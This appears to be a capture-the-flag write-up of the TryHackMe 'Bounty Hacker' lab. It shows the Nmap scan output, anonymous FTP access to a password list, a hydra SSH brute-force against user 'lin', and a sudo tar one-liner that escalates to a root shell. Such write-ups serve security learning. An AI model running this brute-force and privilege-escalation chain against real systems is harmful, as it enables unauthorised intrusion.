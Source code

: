 https://tryhackme.com/room/cowboyhacker

*You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!*

----

1) Enumeration / Service Discovery

```bash
# Nmap 7.91 scan initiated Mon Jul 26 08:17:23 2021 as: nmap -p- -A -Pn -oA resultsNmap -vv 10.10.61.20
adjust_timeouts2: packet supposedly had rtt of -495795 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -495795 microseconds.  Ignoring time.
Nmap scan report for 10.10.61.20
Host is up, received user-set (0.16s latency).
Scanned at 2021-07-26 08:17:24 IST for 800s
Not shown: 55529 filtered ports, 10003 closed ports
Reason: 55529 no-responses and 10003 resets
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 60 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.9.26
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgcwCtWTBLYfcPeyDkCNmq6mXb/qZExzWud7PuaWL38rUCUpDu6kvqKMLQRHX4H3vmnPE/YMkQIvmz4KUX4H/aXdw0sX5n9jrennTzkKb/zvqWNlT6zvJBWDDwjv5g9d34cMkE9fUlnn2gbczsmaK6Zo337F40ez1iwU0B39e5XOqhC37vJuqfej6c/C4o5FcYgRqktS/kdcbcm7FJ+fHH9xmUkiGIpvcJu+E4ZMtMQm4bFMTJ58bexLszN0rUn17d2K4+lHsITPVnIxdn9hSc3UomDrWWg+hWknWDcGpzXrQj
CajO395PlZ0SBNDdN+B14E0m6lRY9GlyCD9hvwwB
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMCu8L8U5da2RnlmmnGLtYtOy0Km3tMKLqm4dDG+CraYh7kgzgSVNdAjCOSfh3lIq9zdwajW+1q9kbbICVb07ZQ=
|   256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICqmJn+c7Fx6s0k8SCxAJAoJB7pS/RRtWjkaeDftreFw
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

2) Foothold

Observations

- Port 80 - Apache 2.4.18

- Home page seems to have a big image from the Cowboy Bebop anime. Which seems to be stored in the `/images/` dir. Visiting that dir shows that dir listing allowed. Running feroxbuster on the web portal in parallel.

![Alt Text](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/ccm1qecmrfjp6njxxlp7.png)
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/z3ffue7qq17elagkyvti.png)

- FTP Anon login allowed. Got two files -> locks.txt and tasks.txt.
```bash
└─$ ftp 10.10.61.20                                                                  
Connected to 10.10.61.20.                                                                                                                                                  
220 (vsFTPd 3.0.3)                                                                                                                                                         
Name (10.10.61.20:kali): Anonymous                                                                                                                                         
230 Login successful.                                                                
Remote system type is UNIX.                                                          
Using binary mode to transfer files.                                                 
ftp> ls                                                                              
200 PORT command successful. Consider using PASV.                                    
150 Here comes the directory listing.                                                                                                                                      
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt                    
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt                     
226 Directory send OK.
```

tasks.txt
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

> Q3: Who wrote the task list?  
> A3: lin

`locks.txt` seems to contain a what looks like a list of passwords. 
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/vf4yzqa3fvj00ew740k8.png)

Let's try to bruteforce ssh with the probable password list provided and the username `lin`
```bash
└─$ hydra -l lin -P locks.txt ssh://10.10.61.20
[22][ssh] host: 10.10.61.20   login: lin   password: CENSORED
```

Success!

> Q4: What service can you bruteforce with the text file found?
> A4: SSH 

> Q5: What is the users password? 
> A5: Result of `ssh` bruteforce using `hydra`

Let's ssh into the machine with this username/password combo. This allows us to get `user.txt`

> Q6: user.txt
> A6: Answer in `/home/lin/user.txt`

Now we have a proper foothold in the machine.

3) Privilege Escalation

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

So we can run `tar` as `root` user. Note the absence of `NOPASSWD` here. You will still need the lin user`s password to do this. Fortunately we have that.

Using [Tar GTFOBins](https://gtfobins.github.io/gtfobins/tar/) for Privilege Escalation

````bash
lin@bountyhacker:~/Desktop$ sudo tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
# id
uid=0(root) gid=0(root) groups=0(root)
````


Use this shell to navigate to `/root/` and get the root flag.

>Q7: root.txt 
A7: Answer in `/root/root.txt`

Pretty simple box to solve. Thanks for reading! 

Try it at https://tryhackme.com/room/cowboyhacker
